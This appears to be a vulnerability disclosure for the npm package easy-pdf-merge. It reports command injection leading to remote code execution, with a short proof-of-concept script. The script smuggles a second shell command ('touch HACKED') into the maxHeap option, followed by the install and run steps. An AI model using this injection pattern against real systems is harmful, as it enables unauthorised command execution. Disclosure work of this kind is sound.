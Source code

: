 # Description

The `easy-pdf-merge` module is vulnerable against `RCE` since `user supplied inputs` are formatted inside a command which is executed without prior checks.

# POC

1. Create the following PoC file:

```js
// poc.js
const merge = require('easy-pdf-merge');

merge(["test", "test1"], "test2", {maxHeap:"test; touch HACKED; #"}, function(err){
  if(err) {
    return console.log(err)
  }
  console.log('Success')
});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i easy-pdf-merge # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
